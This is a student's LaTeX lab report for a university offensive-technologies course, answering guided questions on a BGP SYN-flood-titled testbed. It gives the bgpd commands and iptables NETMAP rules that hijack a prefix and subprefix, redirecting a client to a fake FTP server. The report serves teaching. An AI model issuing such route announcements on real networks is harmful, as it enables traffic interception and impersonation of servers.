\documentclass[a4paper,11pt,hidelinks]{article}
%\usepackage[a-1b]{pdfx}
\usepackage{hyperref}

\usepackage{subfiles}
\usepackage{epsfig}
\usepackage{plain}
\usepackage{setspace}
%\usepackage{minted}
\usepackage{listings}

\usepackage{mdframed}
\usepackage{caption}
\usepackage{color}
\usepackage{amsmath}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{amsfonts}
\usepackage{mathabx}
\usepackage{tcolorbox}
\usepackage{multicol}
\usepackage[english]{babel}
\usepackage[left=2cm,right=2cm,top=2cm,bottom=1.8cm]{geometry}
\usepackage{titlesec} 
\usepackage[utf8x]{inputenc} 

\hypersetup{colorlinks=true,urlcolor=blue}

\newtheorem{theorem}{Question}[subsection]
\renewcommand*{\proofname}{Answer}
\addto\captionsenglish{\renewcommand\proofname{Answer}}

\captionsetup{
  justification=centering,
  singlelinecheck=false,
  font=small,labelfont=bf,labelsep=space}

\begin{document}

\pagestyle{plain}

\begingroup

\renewcommand{\cleardoublepage}{}
\renewcommand{\clearpage}{}

\titleformat{\section}
{\normalfont\Large\bfseries}{\thesection}{1em}{}


\renewcommand{\lstlistingname}{Code}%
\renewcommand{\lstlistlistingname}{List of \lstlistingname s}

\definecolor{codeBackground}{rgb}{0.9, 0.9, 0.9}

% Code environment
\lstnewenvironment{code}[1]{
  \mdframed[%
    backgroundcolor=codeBackground,
    shadow=false,
    linecolor=black!40,
    linewidth=2pt,
    topline=false,
    rightline=false,
    leftline=false
  ]%
  \lstset{%
    moredelim=**[is][\color{blue}]{**}{**},
    moredelim=**[is][\color{teal}]{.-}{-.},
    moredelim=**[is][\color{gray}]{||}{||},
    frame=single,
    framerule=0pt,
    basicstyle=\ttfamily,
    keepspaces=true,
    fontadjust=true,
    basewidth=0.5em
  }%
}{% Spacing between and after caption + before end of mdframed
  \vspace{-1em}
  \endmdframed
  \vspace{-0.5em}
  \captionsetup{type=lstlisting}
  \caption{#1}
  \vspace{1.5em}
  \ignorespaces
}

\newpage

\title{SYN flood exercise}
\author{Offensive Technologies 2021 \\
  Matteo Franzil \texttt{<matteo.franzil+github@gmail.com>}}

\maketitle
\tableofcontents
\newpage

\section{Solution}

Due to a large amount of nodes, this time I divided my screen into several subwindows, one for each node. In each one, I ssh-ed into the corresponding node and arranged them in order to simulate the layout shown in the diagram.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.6\textwidth]{../drawable/setup.png}
    \caption{Window setup for the exercise.}
\end{figure}

Following subsections are arranged in a question-answer pattern, closely matching the exercise's requirements and guided approach.

\subsection{Topology}

This diagram shows the configuration of the nodes.

\begin{verbatim}    
              65003                               65004
|--------------------------------|     |--------------------------------|
| client             asn3        |     | asn4               attacker    |
| 10.5.0.2/24 ------ 10.5.0.1/24 |     | 10.6.1.1/24 ------ 10.6.1.2/24 |
|                    10.4.0.1/24-|-----|-10.4.0.2/24                    |
|                    10.3.0.1/24 |     |--------------------------------|
|-------------------------|------| 
                          |
                   65002  |                        65001
                  |-------|------|     |--------------------------------|
                  |  asn2 |      |     | asn1               server      |
                  |  10.3.0.2/24 |     | 10.1.1.1/24 ------ 10.1.1.2/24 |
                  |  10.2.0.2/24-|-----|-10.2.0.1/24                    |
                  |--------------|     |--------------------------------|
\end{verbatim}

\clearpage
\newpage
\subsection{Part 1: Regular configuration}

Login to the client machine and perform the following tasks:

\begin{theorem}
    On the command prompt run: \verb=traceroute -n 10.1.1.2=. Explain the path from client host \verb=10.5.0.2= to the ftp server host \verb=10.1.1.2=. Specifically, note down the intermediate hops and their IP addresses. How many hops away is the ftp server from the client?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the traceroute command.}
traceroute to 10.1.1.2 (10.1.1.2), 30 hops max, 60 byte packets
 1  10.5.0.1  0.864 ms  0.799 ms  0.768 ms
 2  10.3.0.2  0.862 ms  0.849 ms  0.816 ms
 3  10.2.0.1  0.999 ms  0.949 ms  0.908 ms
 4  10.1.1.2  1.856 ms  1.854 ms  1.820 ms
\end{code}

    The path goes from \verb=asn3= router to the \verb=asn2= router to the \verb=asn1= router to the client. This is a total of 4 hops.
\end{proof}

\begin{theorem}
    Run \verb=netstat -rn=. Explain how the client is able to send packets to \verb=10.1.1.2=, i.e., what route is the client using to reach the server \verb=10.1.1.2= (don't forget to list the gateway address and mask value).
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the netstat command.}
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
0.0.0.0         192.168.1.254   0.0.0.0         UG        0 0          0 eth3
10.0.0.0        10.5.0.1        255.0.0.0       UG        0 0          0 eth0
10.5.0.0        0.0.0.0         255.255.255.0   U         0 0          0 eth0
192.168.0.0     0.0.0.0         255.255.252.0   U         0 0          0 eth3
192.168.1.254   0.0.0.0         255.255.255.255 UH        0 0          0 eth3
\end{code}
    
    The route we're looking for is the second one, with destination \verb=10.0.0.0=. The gateway is marked as \verb=10.5.0.1=, and therefore the client will send the packets to that IP, which will then be responsible for further routing of the traffic.
\end{proof}

\begin{theorem}
    Run \verb=sudo vtysh -c "show ip route"=. Does the "information" (not the raw output) differ from the above output? If so, what additional information can you learn from this output?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the vtysh command.}
Codes: K - kernel route, C - connected, S - static, R - RIP,
O - OSPF, I - IS-IS, B - BGP, P - PIM, A - Babel, N - NHRP,
> - selected route, * - FIB route
 
K>* 0.0.0.0/0 via 192.168.1.254, eth3, src 192.168.1.87
S>* 10.0.0.0/8 [1/0] via 10.5.0.1, eth0
C>* 10.5.0.0/24 is directly connected, eth0
C>* 127.0.0.0/8 is directly connected, lo
C>* 192.168.0.0/22 is directly connected, eth3
K>* 192.168.1.254/32 is directly connected, eth3
\end{code}

    We can observe that this command, in addition to the \verb=netstat= one, tells us that the connection to \verb=10.0.0.0/8= is static while the connection to \verb=10.5.0.0/24= is directly connected.
\end{proof}

\begin{theorem}
    Run \verb=ftp 10.1.1.2= and at the prompt for username type \verb=anonymous=, type some random text for password. Once you are connected to the ftp server, type \verb=get README= at the ftp prompt. After the README file finishes downloading, logout (type \verb=exit=) and read and contents of the README file. What does it say?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the ftp command.}
otech2af@client:~$ ftp 10.1.1.2
Connected to 10.1.1.2.
220 (vsFTPd 3.0.3)
Name (10.1.1.2:otech2af): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get README
local: README remote: README
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for README (32 bytes).
226 Transfer complete. 32 bytes received in 0.00 secs (12.3959 kB/s)

otech2af@client:~$ cat README
**AS1 owns the prefix for 10.1/16**
\end{code}
\end{proof}

Now login to \verb=asn3= machine and perform the following tasks:

\begin{theorem}
    Run \verb=sudo vtysh -c "show ip bgp"=. What is the AS path to reach \verb=10.1.0.0/16=?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the vtysh command.}
BGP table version is 0, local router ID is 10.3.0.1
Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
              i internal, r RIB-failure, S Stale, R Removed
Origin codes: i - IGP, e - EGP, ? - incomplete

   Network          Next Hop            Metric LocPrf Weight Path
*> 10.1.0.0/16      10.3.0.2                               0 65002 65001 i
*> 10.1.1.0/24      10.3.0.2                               0 65002 65001 ?
*> 10.2.0.0/24      10.3.0.2                 0             0 65002 ?
*> 10.3.0.0/24      10.3.0.2                 0             0 65002 ?
*> 10.4.0.0/24      10.4.0.2                 0             0 65004 ?
*> 10.5.0.0/16      0.0.0.0                  0         32768 i
*> 10.6.0.0/24      10.4.0.2                 0             0 65004 i
*> 10.6.1.0/24      10.4.0.2                 0             0 65004 ?
*  192.168.0.0/22   10.4.0.2                 0             0 65004 ?
*>                  10.3.0.2                 0             0 65002 ?
Displayed  9 out of 10 total prefixes
\end{code}

    The route we're looking for is the very first one, whose path goes through ASs \verb=65002= and \verb=65001=.
\end{proof}

Login to asn2 machine and perform the following tasks:

\begin{theorem}
    Run \verb=sudo vtysh -c "show ip bgp"=. What AS path will be used to reach an IP address \verb=10.1.1.2=? What AS path will be used to reach an IP address \verb=10.1.2.2=?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the vtysh command.}
BGP table version is 0, local router ID is 10.2.0.2
||[truncated output]||
   Network          Next Hop            Metric LocPrf Weight Path
*> 10.1.0.0/16      10.2.0.1                 0             0 65001 i
*> 10.1.1.0/24      10.2.0.1                 0             0 65001 ?
*  10.2.0.0/24      10.2.0.1                 0             0 65001 ?
*>                  0.0.0.0                  0         32768 ?
*> 10.3.0.0/24      0.0.0.0                  0         32768 ?
*> 10.4.0.0/24      10.3.0.1                               0 65003 65004 ?
*> 10.5.0.0/16      10.3.0.1                 0             0 65003 i
*> 10.6.0.0/24      10.3.0.1                               0 65003 65004 i
*> 10.6.1.0/24      10.3.0.1                               0 65003 65004 ?
*  192.168.0.0/22   10.2.0.1                 0             0 65001 ?
*>                  0.0.0.0                  0         32768 ?
Displayed  9 out of 11 total prefixes
\end{code}

    The route we're looking for IP \verb=10.1.1.2= is the second one, due to longest matching prefix. Being one less hop away, now the packets will just need to be routed to AS \verb=65001= in order to reach their target. On the other hand, for IP \verb=10.1.2.2= the first route will be used.
\end{proof}

\clearpage
\newpage
\subsection{Part 2: Prefix Hijacking}
%\setcounter{lstlisting}{0}

In this part, you will become the adversary and take over the prefix \verb=10.1.0.0/16=. Your goal is to mislead the client into accessing your false ftp server. 

To hijack the prefix, first login to \verb=asn4= and run the command \verb=telnet localhost bgpd=. Enter "test" when prompted for the password. You will then get a prompt from the BGP instance running on asn4. At this prompt, run the following series of commands.

\begin{code}{Input for the telnet command.}
enable   
config terminal
router bgp 65004
network 10.1.0.0/16
end
exit
\end{code}

Then on \verb=asn4= type:

\begin{code}{Input for the asn4 shell.}
sudo iptables -t nat -F
sudo iptables -t nat -A PREROUTING -d 10.1.1.2 \
        -m ttl --ttl-gt 1 -j NETMAP --to 10.6.1.2
sudo iptables -t nat -A POSTROUTING -s 10.6.1.2 -j NETMAP --to 10.1.1.2
\end{code}

These lines will ensure that asn4 rewrites source and destination IPs to hide the presence of hijacking and also to make the attacker node properly process packets sent to \verb=10.1.1.2=.
After completing this process, wait at least 5 minutes (so that the routes are propagated throughout the network) and log back into the client host. Now, do the following:

\begin{theorem}
    Run \verb=traceroute -n 10.1.1.2=. Explain the path from client host \verb=10.5.0.2= to the ftp server \verb=0.1.1.2=. How many hops away is the ftp server from the client this time? Is there a difference in output from the same command in Part-1?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the traceroute command.}
traceroute to 10.1.1.2 (10.1.1.2), 30 hops max, 60 byte packets
1  10.5.0.1  0.976 ms  0.937 ms  0.913 ms
2  10.3.0.2  1.334 ms  1.319 ms  1.296 ms
3  10.2.0.1  1.494 ms  1.710 ms  1.697 ms
4  10.1.1.2  1.908 ms  1.899 ms  2.088 ms
\end{code}

    Looks like nothing suspect is going on here. The hops are still four, meaning our hijack failed and the route didn't change (else, they would have been just three, looking at the diagram).
\end{proof}

\begin{theorem}
    Run \verb=ftp 10.1.1.2= and at the prompt for username type \verb=anonymous=, type some random text for password. Once you are connected to the ftp server, type \verb=get README= at the ftp prompt. After the README file finishes downloading, logout (type \verb=exit=) and read and contents of the README file. What does it say? Did the contents of README file differ from the output in Part-1?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the ftp command.}
otech2af@client:~$ ftp 10.1.1.2
Connected to 10.1.1.2
||[truncated output]||
226 Transfer complete. 32 bytes received in 0.00 secs (12.3959 kB/s)

otech2af@client:~$ cat README
**AS1 owns the prefix for 10.1/16**
\end{code}

    Looks like the output is the same. Again, the hijack apprently didn't work properly.
\end{proof}

Login to asn3 machine and perform the following tasks:

\begin{theorem}
    Run \verb=sudo vtysh -c "show ip bgp"=. What AS path will be used to reach an IP address \verb=10.1.0.0/16=? Did the AS path differ from the last time (i.e., part-1)?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the vtysh command.}
||[truncated output]||
Network          Next Hop            Metric LocPrf Weight Path
*> 10.1.0.0/16      10.4.0.2                 0             0 65004 i
*                   10.3.0.2                               0 65002 65001 i
*> 10.1.1.0/24      10.3.0.2                               0 65002 65001 ?
*> 10.2.0.0/24      10.3.0.2                 0             0 65002 ?
*> 10.3.0.0/24      10.3.0.2                 0             0 65002 ?
*> 10.4.0.0/24      10.4.0.2                 0             0 65004 ?
*> 10.5.0.0/16      0.0.0.0                  0         32768 i
*> 10.6.0.0/24      10.4.0.2                 0             0 65004 i
*> 10.6.1.0/24      10.4.0.2                 0             0 65004 ?
*  192.168.0.0/22   10.4.0.2                 0             0 65004 ?
*>                  10.3.0.2                 0             0 65002 ?
Displayed  9 out of 11 total prefixes
\end{code}

    If we need to contact \verb=10.1.1.2=, the legitimate path is still the one used as its prefix is the longest one. On the other hand, if the IP to be accessed is \verb=\verb=10.1.0.0/16=, then \verb=asn4= will be the one used, through \verb=10.4.0.2= which has been introduced by the attacker.
\end{proof}

Login to asn2 machine and perform the following tasks:

\begin{theorem}
    Run \verb=sudo vtysh -c "show ip bgp"=. What AS path will be used to reach an IP address \verb=10.1.1.2=? What AS path will be used to reach an IP address \verb=10.1.2.2=?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the vtysh command.}
||[truncated output]||
Network          Next Hop            Metric LocPrf Weight Path
*  10.1.0.0/16      10.3.0.1                               0 65003 65004 i
*>                  10.2.0.1                 0             0 65001 i
*> 10.1.1.0/24      10.2.0.1                 0             0 65001 ?
*  10.2.0.0/24      10.2.0.1                 0             0 65001 ?
*>                  0.0.0.0                  0         32768 ?
*> 10.3.0.0/24      0.0.0.0                  0         32768 ?
*> 10.4.0.0/24      10.3.0.1                               0 65003 65004 ?
*> 10.5.0.0/16      10.3.0.1                 0             0 65003 i
*> 10.6.0.0/24      10.3.0.1                               0 65003 65004 i
*> 10.6.1.0/24      10.3.0.1                               0 65003 65004 ?
*  192.168.0.0/22   10.2.0.1                 0             0 65001 ?
*>                  0.0.0.0                  0         32768 ?
Displayed  9 out of 12 total prefixes
\end{code}

    The situation when the command is run at \verb=asn2= is similar to the situation at \verb=asn3=. The new prefix introduced makes that if the IP desired to be accessed is 10.1.2.2 \verb=asn3= will be used to access \verb=asn4=. 
    
    If the IP address to be accessed is \verb=10.1.1.2=, then \verb=asn1= will be still used as its subprefix is longer than the newly introduced prefix by the attacker.
\end{proof}

\clearpage
\newpage
\subsection{Part 3: Subprefix Hijacking}

In this part, you will become the adversary again and take over a subprefix (\verb=10.1.1.0/24=) of the prefix \verb=10.1/16=. You will achieve a similar goal as before i.e., mislead the client into accessing your server, but there are some important differences. To hijack the subprefix, login to \verb=asn4= and run the command \verb=telnet localhost bgpd=. Enter "test" when prompted for the password. You will get a prompt from the BGP instance running on \verb=asn4=. At this prompt, run the following series of commands:


\begin{code}{Input for the telnet command.}
enable
config terminal
router bgp 65004
no network 10.1.0.0/16
network 10.1.1.0/24
end
exit
\end{code}
    
After completing this process, wait at least 5 few minutes (so that the routes are propagated throughout the network) and log back into the client host and do the following:

\begin{theorem}
    Run \verb=traceroute -n 10.1.1.2=. How many hops away is the ftp server \verb=10.1.1.2= from the client this time? Is there a difference in output from the same command in Part-2?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the traceroute command.}
traceroute to 10.1.1.2 (10.1.1.2), 30 hops max, 60 byte packets
1  10.5.0.1  0.543 ms  0.490 ms  0.446 ms
2  10.4.0.2  0.836 ms  0.806 ms  0.737 ms
3  10.1.1.2  1.440 ms  1.403 ms  1.359 ms
\end{code}

    This time, the server is only three hops away. We deduce that our attack worked, and the routing is now pointing at the attacker.
\end{proof}

\begin{theorem}
    Run \verb=ftp 10.1.1.2= and at the prompt for username type \verb=anonymous=, type some random text for password. Once you are connected to the ftp server, type \verb=get README= at the ftp prompt. After the README file finishes downloading, logout (type \verb=exit=) and read and contents of the README file. What does it say? Did the contents of README file differ from the output in Part-2?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the ftp command.}
otech2af@client:~$ ftp 10.1.1.2
Connected to 10.1.1.2
||[truncated output]||
226 Transfer complete. 32 bytes received in 0.00 secs (12.3959 kB/s)

otech2af@client:~$ cat README
**I just hijacked your BGP Prefix!**
\end{code}

    A further confirmation of the success of the attack. The content of the README differ.
\end{proof}

Login to asn3 machine and perform the following tasks:

\begin{theorem}
    Run \verb=sudo vtysh -c "show ip bgp"=. What is the AS path to reach \verb=10.1.0.0/16=? Did the AS path differ from Part-2? What is the AS path to reach \verb=10.1.1.0/24=?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the vtysh command.}
||[truncated output]||
Network          Next Hop            Metric LocPrf Weight Path
*> 10.1.0.0/16      10.3.0.2                               0 65002 65001 i
*> 10.1.1.0/24      10.4.0.2                 0             0 65004 i
*                   10.3.0.2                               0 65002 65001 ?
*> 10.2.0.0/24      10.3.0.2                 0             0 65002 ?
*> 10.3.0.0/24      10.3.0.2                 0             0 65002 ?
*> 10.4.0.0/24      10.4.0.2                 0             0 65004 ?
*> 10.5.0.0/16      0.0.0.0                  0         32768 i
*> 10.6.0.0/24      10.4.0.2                 0             0 65004 i
*> 10.6.1.0/24      10.4.0.2                 0             0 65004 ?
*  192.168.0.0/22   10.3.0.2                 0             0 65002 ?
*>                  10.4.0.2                 0             0 65004 ?
Displayed  9 out of 11 total prefixes
\end{code}

    Now, we have a clear path to \verb=10.1.1.1/24= going through the hijacked next hop (\verb=65004=) while the other part of the subnet, \verb=10.1.0.0/16=, still goes the original way, being routed to next-hop \verb=10.3.0.2=, then through \verb=65002= to \verb=65001=.
\end{proof}

Login to asn2 machine and perform the following tasks:

\begin{theorem}
    Run \verb=sudo vtysh -c "show ip bgp"=. What AS path will be used to reach an IP address \verb=10.1.1.2=? What AS path will be used to reach an IP address \verb=10.1.2.2=?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the vtysh command.}
||[truncated output]||
Network          Next Hop            Metric LocPrf Weight Path
*> 10.1.0.0/16      10.2.0.1                 0             0 65001 i
*  10.1.1.0/24      10.3.0.1                               0 65003 65004 i
*>                  10.2.0.1                 0             0 65001 ?
*  10.2.0.0/24      10.2.0.1                 0             0 65001 ?
*>                  0.0.0.0                  0         32768 ?
*> 10.3.0.0/24      0.0.0.0                  0         32768 ?
*> 10.4.0.0/24      10.3.0.1                               0 65003 65004 ?
*> 10.5.0.0/16      10.3.0.1                 0             0 65003 i
*> 10.6.0.0/24      10.3.0.1                               0 65003 65004 i
*> 10.6.1.0/24      10.3.0.1                               0 65003 65004 ?
*  192.168.0.0/22   10.3.0.1                               0 65003 65004 ?
*                   10.2.0.1                 0             0 65001 ?
*>                  0.0.0.0                  0         32768 ?
\end{code}

    Similar to the previous output, the path to \verb=10.1.0.0/16= - the legitimate one - encompasses the \verb=10.1.2.2= IP, and is rightfully sent through \verb=asn1=. On the other hand, the \verb=10.1.1.0/24= path has been successfully hijacked and traffic will therefore be routed through \verb=asn3=, going the round way instead of reaching \verb=asn1=.
\end{proof}
\endgroup
\end{document}